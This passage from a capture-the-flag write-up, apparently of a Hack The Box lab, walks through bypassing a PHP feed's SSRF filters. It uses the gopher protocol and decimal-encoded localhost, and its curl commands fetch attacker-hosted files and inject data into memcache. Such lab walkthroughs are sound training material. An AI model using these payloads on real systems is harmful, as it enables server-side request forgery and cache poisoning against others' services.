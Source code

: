 ```php

    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

```
- `template.php` primarily has the code for security mechanisms to secure `custom_feed_url` 
- The code mainly checks for:
	1. `file://` or  `@` ---> Local file Inclusion attacks
	2. `-o` or `-F` ---> Command Injection
	3. `localhost` or `127.0.0.1` ---> Server Side Request Forgery
- If the above conditions are satisfied then the PHP code exits and records attempts to `/logs/`
- There is an workaround for this, I can use [Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)) protocol instead of http with decimal representation of local host.

{{< badge >}} Definition {{< /badge >}}
Gopher is a protocol. It was designed for distributing, searching, and retrieving documents over the Internet. Gopher represented an early alternative to the World Wide Web.
The gopher protocol has some things HTTP-based clients do not have. It is based on menus. An item selected from a menu will either open another menu, or a document.

- The bottom line is, Gopher is a very old protocol that used before http and delivers the message without any useless headers.

### Testing with Gopher
- I can test gopher like this 
```bash
curl -s 'gopher://10.10.14.16:6001//testing'
```
- I can see that gopher successfully transfers the message without any Headers
![Pasted image 20250228103856.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228103856.png?raw=true)
- Now that I tested gopher for the `memcache` , I saved a local copy of `customfeed.xml` as `sec.xml`
![Pasted image 20250228104112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228104112.png?raw=true)
- I opened a python http server and I requested for the file that I made, using SSRF that I discovered earlier 

```bash
curl -s http://blog.travel.htb/awesome-rss/\?custom_feed_url=http://10.10.14.16:8000/sec.xml
```
- Actually It saved the file that I made as some data into it's cache. Now I can see two data values 
![Pasted image 20250228104408.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228104408.png?raw=true)
- This definitely could be a hash generated value.

### Understanding Memcache
- Next I called for the local host using Gopher protocol
- [Gopherus](https://github.com/tarunkant/Gopherus) is a tool that generates SSRF payloads using gopher protocol. 
- For testing I gave `exploitEmp5r0R` as a payload value
![Pasted image 20250228105632.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250228105632.png?raw=true)
- As I already know about the filters for `custom_feed_url` to bypass the them I can replace the localhost with it's decimal representation which is `2130706433` . Hex value is also applicable 
- Now the payload becomes
```
http://blog.travel.htb/awesome-rss/\?custom_feed_url=gopher://2130706433:11211/_%0d%0aset%20SpyD3r%204%200%2014%0d%0aexploitEmp5r0R%0d%0a
```
- Sent it using curl